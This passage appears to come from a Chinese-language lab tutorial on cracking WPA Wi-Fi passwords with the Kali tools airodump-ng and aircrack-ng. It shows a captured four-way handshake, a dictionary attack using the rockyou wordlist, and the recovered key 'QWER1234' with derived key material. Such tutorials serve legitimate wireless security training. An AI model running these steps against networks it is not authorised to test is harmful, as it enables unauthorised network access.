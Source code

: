 运行此命令的时候注意观察`airodump-ng` 终端,  在终端右上角出现`WPA handshake xxxx` 则说明捕捉到WPA4次握手对应的流量. 同时暂停`airodump-ng`终端

```bash
 CH  1 ][ Elapsed: 3 mins ][ 2019-11-23 22:51 ][ WPA handshake: E4:D3:32:44:61:BE

 BSSID              PWR RXQ  Beacons  #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 E4:D3:32:44:61:BE  -61   2     2290   1679   34   1  405  WPA  CCMP   PSK  Wireless Lab              
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                              
 E4:D3:32:44:61:BE  14:9D:09:A8:4B:FE  -37    0e-24e   225     2389
```

现在开始密码破解

```bash
root@kali:~# aircrack-ng wpa_crack-01.cap -w /usr/share/wordlists/rockyou.txt
Opening wpa_crack-01.capwait...
Read 7865 packets.

   #  BSSID              ESSID                     Encryption

   1  E4:D3:32:44:61:BE  Wireless Lab              WPA (1 handshake)

Choosing first network as target.

Opening wpa_crack-01.capwait...
Read 7865 packets.

1 potential targets

                              Aircrack-ng 1.5.2 

      [00:00:16] 111564/9822768 keys tested (6562.02 k/s) 

      Time left: 24 minutes, 39 seconds                          1.14%

                           KEY FOUND! [ QWER1234 ]


      Master Key     : EC C0 32 D0 C7 41 7E 99 7D 46 27 30 6A 52 0B C0 
                       EB DC BC D3 D8 F5 36 61 7F 2B 39 47 2E 50 E9 0C 

      Transient Key  : A4 C1 4A 9C 3F EE E0 FB DB 25 19 AF 38 54 A7 41 
                       D6 23 29 E2 F4 64 8B 55 0B 12 17 24 5C C6 55 E5 
                       8B 82 3D 0B C2 EF 32 18 7E 16 DF 85 C4 C7 3B 1F 
                       C5 8C 26 49 52 60 A9 44 8A 5A 12 A5 A5 84 17 5A 

      EAPOL HMAC     : 23 85 30 77 8F 3E 97 95 F9 C7 A1 92 F3 60 69 09
```

密码是`QWER1234`
